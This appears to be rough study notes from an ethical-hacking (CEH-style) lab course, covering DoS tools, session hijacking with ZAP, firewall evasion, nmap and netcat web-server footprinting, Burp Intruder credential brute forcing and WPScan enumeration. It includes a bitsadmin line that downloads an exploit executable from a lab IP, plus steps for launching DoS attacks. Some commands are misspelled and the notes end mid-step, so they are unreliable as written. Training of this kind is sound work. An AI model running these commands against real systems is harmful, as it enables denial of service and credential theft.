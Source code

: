 * DDOS
- Perfomr a DOS attack using Raven-Storm | sudo rst
- " using MOIC high orbit ion canon and low orbit canon | 
- detect and protec against dos using Anti DDOS guradian.exe

* Session Hijacking
- add procy server ip or target where we are opening a site to your network settings 
- hijack session using ZAP.exe | add break tab from + 
- from options setting icon -> local proxies -> address   
- green break circle to capture button 

* evading firwal and ids
- detect interusion using snort
- malicious network traffic using honeybot.exe
- bypass firewall through windows bitsadmin (wind to win)
1. itsadmin /tranfer exploit.exe http://10.10.01.13/share.Exploit.exe c:\Expoit.exe


* Hacking Web Servers
-  info gathering using ghosteye - parrot | python3 ghost-eye.py
1. 3 whoise lookup -> address -> 

- fotprint a webserver using netcat and telenet
1. nc -vv www.moviescaope.con 80 | type GET / HTTP/1.0 enter

- enumerate web serve info using nmap scripts
1. nmap -sV --script=http-enum www.goodshopping.com
2. nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostnamp- www.goodshopping .com 
3. nmap --script http-trace -d www.goodshopping.com
4. nmap -p 80 --script http-waf-detect www.goodshopping.com

- crack ftp cred using dictionary attack

* hacking web application 
- web app reconnaisase using nmap anf telnet 
1. nmap -T4 -A -v www.moviescope.com -> open porst | service
2. Banner grabbing -> telnet or curl -I -k 

- web spiddring using zap
1. in parrot -> zaproxy
2. automated scan = bluc color -> eneter target url -> idetify the various vulnerabilities present on the site

- perform bruteforce using Burpsuite
1. in kali = brup  | update browser proxy to manual - 127.0.0.1 with use with ftp andhttps chgeck box
2. now open provided website login page and login with credetnial to intercept request
3. sent req to intruder -> go to intruder tab -> position 
4. clear position first
5. attack type = cluster bomb
6. select cred and click add $ -> go to payload tab ->
7. payload set 1 -> load payload from desktop user list and payload set 2 and set pass list and starat attack
8. check status 302 and length  

- perform CSRF Attack 
1. wordpress site and login -> plugin -> activate leenk.me plugin -> 
2. click leenk.me plugin -> check facebook, post -> facebook setting | message setting | Default messafge, link, 
3. regist new account with tempmail on wpscan.com/tegister -> login -> copy api token 
4. wpscan --api-token "paste token here" --url http://10.10.1.22:8080/CEH --plugins-detection aggressive --enumerate vp
5. Network -> CTRL l -> smb://10.10.1.11 -> login as admin pwd | WORKGROUP 
2. Script-site.html file - 
